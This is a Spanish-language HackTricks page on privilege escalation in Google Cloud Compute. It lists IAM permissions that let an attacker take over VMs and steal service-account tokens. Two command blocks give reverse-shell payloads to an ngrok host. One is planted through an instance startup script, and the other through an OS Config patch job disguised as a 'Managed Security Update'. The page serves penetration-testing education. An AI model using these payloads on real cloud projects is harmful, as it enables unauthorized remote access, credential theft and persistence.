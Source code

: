 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Para más información sobre Compute y VPC (red) en GCP, consulta:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Ten en cuenta que para realizar todos los ataques de escalada de privilegios que requieren modificar los metadatos de la instancia (como agregar nuevos usuarios y claves SSH) es **necesario que tengas permisos `actAs` sobre la SA adjunta a la instancia**, ¡incluso si la SA ya está adjunta!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Con ese permiso puedes **modificar** la información de **metadatos** de una **instancia** y cambiar las **claves autorizadas de un usuario**, o **crear** un **nuevo usuario con permisos sudo**. Por lo tanto, podrás acceder vía SSH a cualquier instancia de VM y robar la Cuenta de Servicio de GCP con la que se está ejecutando la instancia.\
Limitaciones:

* Ten en cuenta que las Cuentas de Servicio de GCP que se ejecutan en instancias de VM por defecto tienen un **alcance muy limitado**
* Necesitarás **poder contactar al servidor SSH** para iniciar sesión

Para más información sobre cómo explotar este permiso, consulta:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

También podrías realizar este ataque agregando un nuevo script de inicio y reiniciando la instancia:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Este permiso otorga los **mismos privilegios que el permiso anterior** pero sobre instancias específicas en lugar de un proyecto completo. **Los mismos exploits y limitaciones que para la sección anterior se aplican**.

### `compute.instances.setIamPolicy`

Este tipo de permiso te permitirá **otorgarte un rol con los permisos anteriores** y escalar privilegios abusando de ellos.

### **`compute.instances.osLogin`**

Si **OSLogin está habilitado en la instancia**, con este permiso solo puedes ejecutar **`gcloud compute ssh [INSTANCE]`** y conectarte a la instancia. **No tendrás privilegios de root** dentro de la instancia.

{% hint style="success" %}
Para iniciar sesión con éxito con este permiso dentro de la instancia de VM, necesitas tener el permiso `iam.serviceAccounts.actAs` sobre la SA adjunta a la VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Si **OSLogin está habilitado en la instancia**, con este permiso solo puedes ejecutar **`gcloud compute ssh [INSTANCE]`** y conectarte a la instancia. Tendrás **privilegios de root** dentro de la instancia.

{% hint style="success" %}
Para iniciar sesión con éxito con este permiso dentro de la instancia de VM, necesitas tener el permiso `iam.serviceAccounts.actAs` sobre la SA adjunta a la VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Es posible **crear una máquina virtual con una Cuenta de Servicio asignada y robar el token** de la cuenta de servicio accediendo a los metadatos para escalar privilegios a ella.

El script de exploit para este método se puede encontrar [aquí](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Si tienes los permisos **`osconfig.patchDeployments.create`** o **`osconfig.patchJobs.exec`** puedes crear un [**trabajo de parcheo o despliegue**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Esto te permitirá moverte lateralmente en el entorno y obtener ejecución de código en todas las instancias de cómputo dentro de un proyecto.

Ten en cuenta que en este momento **no necesitas el permiso `actAs`** sobre la SA adjunta a la instancia.

Si deseas explotar esto manualmente, necesitarás crear ya sea un [**trabajo de parcheo**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **o** [**despliegue**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Para un trabajo de parcheo ejecuta: 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Para implementar un despliegue de parches:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
La herramienta [patchy](https://github.com/rek7/patchy) podría haberse utilizado en el pasado para explotar esta mala configuración (pero ahora no está funcionando).

**Un atacante también podría abusar de esto para persistencia.**

### `compute.machineImages.setIamPolicy`

**Otórgate permisos adicionales** para la imagen de cómputo.

### `compute.snapshots.setIamPolicy`

**Otórgate permisos adicionales** para un snapshot de disco.

### `compute.disks.setIamPolicy`

**Otórgate permisos adicionales** para un disco.

### Bypass Access Scopes

Siguiendo este enlace encontrarás algunas [**ideas para intentar eludir los scopes de acceso**](../).

### Escalación de privilegios local en la instancia de GCP Compute

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referencias

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
